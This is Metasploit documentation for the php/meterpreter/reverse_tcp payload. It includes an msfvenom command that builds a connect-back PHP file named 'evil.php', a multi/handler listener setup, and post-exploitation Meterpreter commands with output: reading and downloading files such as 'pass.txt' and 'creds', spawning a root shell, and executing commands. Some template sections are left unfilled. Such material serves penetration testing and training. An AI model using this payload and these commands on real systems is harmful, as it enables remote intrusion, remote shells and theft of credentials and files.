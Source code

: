 The php/meterpreter/reverse_tcp is a staged payload used to gain meterpreter access to a compromised system. This is a unique payload in the Metasploit Framework because this payload is one of the only payloads that are used in RFI vulnerabilities in web apps. This module _can_ be cross platform, but the target needs to ba able to run php code.


## Vulnerable Application

  The php Meterpreter is suitable for any system that supports php. For example, the module can be used against webservers which run php code for a website. OS X has php installed by default.

## Options

  **Option name**

  Talk about what it does, and how to use it appropriately.

## Deploying php/meterpreter/reverse_tcp
### Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

#### Generating a file with msfvenom
  ```
  msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o evil.php
  ```


#### Starting a listener
  ```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST [IP]
  ```
  
## Important Basic Commands

Compared to a native Meterpreter such as windows/meterpreter/reverse_tcp, the Php Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/thecarterb/Desktop
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. This is useful for uploading additional payload files. For example:

```
meterpreter > upload /tmp/data.txt /Users/thecarterb/Desktop
[*] uploading  : /tmp/data.txt -> /Users/thecarterb/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/thecarterb/Desktop/data.txt
meterpreter >
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/thecarterb/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter >
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```

Without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the command allows you to search recursively.


**getuid command**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: root
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following examples uses the command to create a text file:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 73642 created.
meterpreter >
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt (or shell).
For example:

```
meterpreter > shell
Process 74513 created.
Channel 2 created.
sh-3.2#
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

## Using `post` modules
When using the Php Meterpreter, you have the feature of using Metasploit's `post` modules on that specific session. By default, most `multi` post modules will work; however, you can also use OS specific modules depending on the OS of the compromised system. For example, if you have a Php Meterpreter session running on OS X, you can use `osx` post modules on that session. 

  __Don't forget to:__
  - Set the `LHOST` datastore option to the connect-back IP Address
  - If you want to get multiple shells, set `ExitOnSession` to `false`
